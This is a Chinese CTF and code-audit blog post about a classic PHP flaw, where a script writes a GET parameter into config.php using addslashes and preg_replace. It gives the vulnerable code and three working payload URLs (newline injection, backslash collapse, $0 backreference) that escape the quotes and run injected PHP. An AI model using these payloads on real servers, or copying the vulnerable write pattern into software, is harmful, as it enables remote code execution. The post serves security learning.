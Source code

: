 ```yaml
---
title: php写入配置文件的经典漏洞
url: 557.html
id: 557
categories:
  - hack_ctf
date: 2017-02-28 11:25:45
tags:
  - ctf
  - code audit
  - php
---
```


phithon师父在小蜜圈里放了一个经典的配置文件写入问题漏洞.

<!--more-->

```php
<?php
if(!isset($_GET['option'])) die();
$str = addslashes($_GET['option']);
$file = file_get_contents('./config.php');
$file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);
file_put_contents('./config.php', $file);
```
config.php 的内容如下:
```php
<?php
$option='test';
```
要求是要getshell,这个场景十分经典，常用在修改配置文件写入的时候。
此处不存在之前说的那个配置文件中用的是"双引号"引起任意代码执行的问题,这这里面用的是单引号,而且 addslashes()处理过了,看似很安全,但是对于脑子里有个黑洞的搞安全的人来讲,这个还真是有问题的.

#### 方法一,利用换行符来绕过正则匹配的问题
可以看到正则匹配的是以下内容:
```php
$option='任意内容'
```
任意内容里面是可以包含转移符 \ 的,所以我们利用下面的方法:
```
http://127.0.0.1/index.php?option=a';%0aphpinfo();//
http://127.0.0.1/index.php?option=a
```
执行完第一个之后,config.php中的内容为:
```php
<?php
$option='a\';
phpinfo();//';
```
但是这样并没有办法执行phpinfo(),因为我们插入的 单引号 被转移掉了,所以phpinfo()还是在单引号的包裹之内.
我们在访问下面这个
```
http://127.0.0.1/index.php?option=a
```
因为正则 .* 会匹配行内的任意字符无数次.所以 \ 也被认为是其中的一部分,也会被替换掉,执行完之后,config.php中的内容为:
```php
<?php
$option='a';
phpinfo();//';
```

转义符就被替换掉了,就成功的getshell.
#### 方法二,利用 preg_replace函数的问题:
用preg_replace()的时候replacement(第二个参数)也要经过正则引擎处理，所以正则引擎把```\\```转义成了```\```
也就是说如果字符串是```\\\'```,经过 preg_replace()的处理,就变为 ```\\'```,单引号就逃出来了.
所以payload如下:
```
http://127.0.0.1/index.php?option=a\';phpinfo();//
```
config.php变为:
```php
<?php
$option='a\\';phpinfo();//';
```
道理就是  ```a\';phpinfo();//```  经过 addslashes()处理之后,变为```a\\\';phpinfo();//``` 然后两个反斜杠被preg_replace变成了一个,导致单引号逃脱.

#### 方法三, 利用 preg_replace() 函数的第二个参数的问题
先看官方对preg_replace()函数的描述[manual](http://php.net/manual/zh/function.preg-replace.php)
函数原型:
```
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```
对replacement的描述.
replacement中可以包含后向引用```\\n``` 或(php 4.0.4以上可用)$n，语法上首选后者。 每个 这样的引用将被匹配到的第n个捕获子组捕获到的文本替换。 n 可以是0-99，```\\0```和$0代表完整的模式匹配文本。

所以我们可以用:
```
http://127.0.0.1/test/ph.php?option=;phpinfo();
http://127.0.0.1/test/ph.php?option=%00 或者 http://127.0.0.1/test/ph.php?option=$0
```
执行第一条后config.php的内容为:
```php
<?php
$option=';phpinfo();';
```
再执行第二条后config.php的内容为:
```php
<?php
$option='$option=';phpinfo();';';
```
刚好闭合掉了前后的两个单引号中间的逃脱出来了.想出这个办法的人,思路真是可以的.

